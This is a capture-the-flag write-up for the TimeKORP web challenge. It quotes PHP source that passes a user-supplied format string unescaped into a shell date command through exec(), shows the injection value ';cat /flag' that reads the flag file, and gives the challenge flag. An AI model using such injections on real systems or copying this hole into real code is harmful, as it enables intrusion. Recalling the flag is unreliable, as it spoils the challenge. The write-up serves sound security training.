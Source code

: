 # Cyber Apocalypse 2024

## TimeKORP

> Are you ready to unravel the mysteries and expose the truth hidden within KROP's digital domain? Join the challenge and prove your prowess in the world of cybersecurity. Remember, time is money, but in this case, the rewards may be far greater than you imagine
> 
> Author: n/a
> 

Tags: _web_

## Solution
We get a webapp, this time with source code. The app lets us display the current time and date. Looking through the source code we find:

```php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}

<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

So this is vanilla command injection. The command invoked is `date '+%H:%M:%S' 2>&1` if we want to display the date. The format we can change with our user input. So we easily can close the date command and attach our own command into it: `format=';cat /flag'` will give us `date '+';cat /flag'' 2>&1` which will print out the flag for us.

Flag `HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}`